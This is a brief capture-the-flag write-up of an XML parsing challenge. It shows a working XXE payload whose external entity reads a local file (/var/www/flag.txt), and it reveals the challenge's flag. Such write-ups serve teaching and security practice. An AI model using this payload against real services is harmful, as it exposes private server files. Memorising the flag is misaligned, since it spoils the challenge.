

# EXtravagent

```
I've been working on a XML parsing service. It's not finished but there should be enough for you to try out.

The flag is in /var/www
```

## Challenge

> TL;DR: Classic Non-blind XXE Injection

Visiting the challenge site, we are greeted with a file upload and an XML file viewer. So we try the basic XXE payload that lets us see the `/var/www/flag.txt` file (since this was what the description hinted):

**poc.xml**:
```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///var/www/flag.txt'>]>
<root>&test;</root>
```

Uploading it:


Viewing it:



Getting the flag:


Flag: `flag{639b72f2dd0017f454c44c3863c4e195}`
